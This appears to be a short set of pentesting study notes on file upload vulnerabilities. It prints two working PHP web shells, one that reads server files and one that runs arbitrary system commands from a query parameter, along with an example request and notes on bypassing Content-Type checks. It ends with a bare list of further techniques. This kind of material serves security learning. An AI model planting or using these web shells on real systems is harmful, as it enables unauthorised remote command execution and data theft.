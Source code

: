 # File upload vulnerabilities

### Exploiting unrestricted file uploads to deploy a web shell <a href="#exploiting-unrestricted-file-uploads-to-deploy-a-web-shell" id="exploiting-unrestricted-file-uploads-to-deploy-a-web-shell"></a>

Uploading a php, java or python file to get a web shell

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:

`<?php echo system($_GET['command']); ?>`

This script enables you to pass an arbitrary system command via a query parameter as follows:

`GET /example/exploit.php?command=id HTTP/1.1`



**Flawed file type validation**

Change `Content-Type` header from within `Content-Disposition` header. One way that websites may attempt to validate file uploads is to check that this input-specific `Content-Type` header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like `image/jpeg` and `image/png`. Problems can arise when the value of this header is implicitly trusted by the server.



`POST /images HTTP/1.1 Host: normal-website.com Content-Length: 12345 Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456 ---------------------------012345678901234567890123456 Content-Disposition: form-data; name="image"; filename="example.jpg" Content-Type: image/jpeg [...binary content of example.jpg...] ---------------------------012345678901234567890123456 Content-Disposition: form-data; name="description" This is an interesting description of my image. ---------------------------012345678901234567890123456 Content-Disposition: form-data; name="username" wiener ---------------------------012345678901234567890123456--`



Web shell upload via path traversal

Web shell upload via extension blacklist bypass

Web shell upload via obfuscated file extension

Remote code execution via polyglot web shell upload

Web shell upload via race condition

